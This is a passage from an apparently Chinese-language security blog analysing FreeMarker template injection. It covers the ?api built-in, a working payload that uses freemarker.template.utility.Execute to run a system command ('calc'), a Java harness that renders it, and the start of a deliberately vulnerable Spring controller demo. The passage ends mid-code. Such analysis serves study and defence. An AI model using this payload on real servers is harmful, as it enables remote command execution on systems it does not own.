 你在模板里拿到一个 `person` 对象，正常只能通过 `${person.name}` 来取属性。

但是如果用了 `?api`，就可以直接调用方法：

```java
${person?api.getName()}
```

在 2.3.22 之前，FreeMarker对 Java 对象访问控制得很严格（只通过 getter / 公开字段），但大家在实际开发中有很多需要更灵活操作 Java 对象的需求，所以从 2.3.22 起，官方引入了 `?api`，允许开发者自愿打开这个“低层访问”的功能。当然，默认是关着的，需要在配置里允许（通过 `ObjectWrapper` 设置）。

## Freemarker模板注入漏洞分析

把hello.ftl修改为如下：

```java
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}
```

在对该模板进行渲染的时候就会触发漏洞

```java
public class nospringToFTL {
    public static void main(String[] args) throws Exception {
        Configuration cfg = new Configuration();
        cfg.setClassForTemplateLoading(nospringToFTL.class, "/templates"); // 模板文件目录
        cfg.setDefaultEncoding("UTF-8");

        Template template = cfg.getTemplate("hello.ftl");

        Map<String, Object> data = new HashMap<>();

        StringWriter writer = new StringWriter();
        template.process(data, writer);

        System.out.println(writer.toString());
    }
}
```

那么按照一般的场景，如下：

```
Hello, ${name}!
```

向name传参payload能顺利执行吗？答案是不可以。直接渲染用户输入`${}`占位符的内容会进行转码，所以payload会失效。想要顺利的进行命令执行必须直接控制模板内容，看起来非常鸡肋，也确实鸡肋。。一般的利用场景为上传或直接能修改模板内容，而不是直接渲染用户输入去触发。所以，严格说来根本不算注入型的漏洞

那寻找那万分之一的可能，如果真有注入模板的场景，那代码长什么样？

如下代码：

后续我们分析均是用如下代码作为demo

```java
@Controller
public class HelloController {
    private Configuration freemarkerConfig = new Configuration();

    private final StringTemplateLoader dynamicLoader = new StringTemplateLoader();

    @PostConstruct
    public void setupTemplateLoader() {
        TemplateLoader[] loaders = new TemplateLoader[] {
                dynamicLoader,
                freemarkerConfig.getTemplateLoader()
        };
        freemarkerConfig.setTemplateLoader(new MultiTemplateLoader(loaders));
    }

```